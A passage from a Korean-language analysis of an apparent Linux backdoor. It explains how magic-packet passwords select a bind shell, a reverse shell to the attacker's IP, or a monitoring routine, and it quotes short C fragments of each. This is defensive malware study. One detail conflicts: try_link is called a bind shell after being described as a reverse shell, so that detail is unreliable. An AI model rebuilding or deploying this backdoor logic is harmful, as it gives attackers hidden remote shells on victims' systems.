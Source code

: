     - 앞에서 받은 리턴 값에 따라 switch-case 문으로 기능을 수행하고 종료(`exit(0)`)한다.
    - 내부에서 호출되는 핵심 함수 `getshell`, `try_link`, `shell`, `mon` 함수 분석은 다음 토글에 설명한다.

    1. `case 1:` - 비밀번호: `socket`
        - IPTables 규칙을 설정하고, Bind Shell을 제공하는 것이 목적이다.

        ```c
        strcpy(sip, inet_ntoa(ip->ip_src));
        getshell(sip, ntohs(tcp->th_dport));
        break;
        ```

        - `inet_ntoa()` 함수를 통해 패킷의 출발지 IP 주소, 즉 패킷을 전송한 공격자의 IP 주소를 Dotted-Decimal Notation(사람이 읽을 수 있는 형태의 IP 주소 e.g. 192.168.1.102)으로 바꾸어 char 배열 `sip` 변수에 저장한다.
        - 앞에서 구한 `sip` 변수와 TCP 헤더에 포함되어 있던 목적지 port 값을 big-endian 에서 little-endian으로 변환한 값을 인자로 하여 `getshell` 함수를 실행한다.

    2. `case 0:` - 비밀번호: `justforfun`
        - 공격자에게 Reverse Shell을 제공하는 것이 목적이다.

        ```c
        scli = try_link(bip, mp->port);
        if (scli > 0)
            shell(scli, NULL, NULL);
        break;
        ```

        - `try_link()` 함수를 호출하여 앞에서 정하였던 공격 대상 ip 주소(`bip`)와 `magic_packet`에 지정되어 있는 포트(공격 대상 포트, `mp→port`)를 인자로 전달한다.
        - 해당 함수로부터 반환 받은 소켓 파일 디스크립터를 `int scli` 변수에 저장하고, 정상적으로 소켓이 생성되었다면 `shell` 함수를 통해 통신을 시도한다. 이때, 두 개의 인자 모두 `NULL`로 전달한다.

    3. `case 2:` - 비밀번호 불일치
        - 프로세스가 정상적으로 동작 중인지를 모니터링하기 위한 목적이다.

        ```c
        mon(bip, mp->port);
        break;
        ```

        - `mon` 함수에 대한 인자로 공격 대상 ip 주소(`bip`)와 `magic_packet`에 지정되어 있는 포트(공격 대상 포트, `mp→port`)를 전달하여 호출한다.

<br>

### (주요 함수 분석) try_link

- 해당 함수는 pass 값이 `justforfun`인 경우에 TCP socket 연결을 수행하고, 이를 `shell` 함수에 전달하여 Bind Shell을 제공하는 것을 목적으로 한다.

<br>

1. **함수 인자 설정**

2. **변수 선언 및 초기화**

3. **TCP socket 생성**

    ```c
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return -1;
    }
    ```
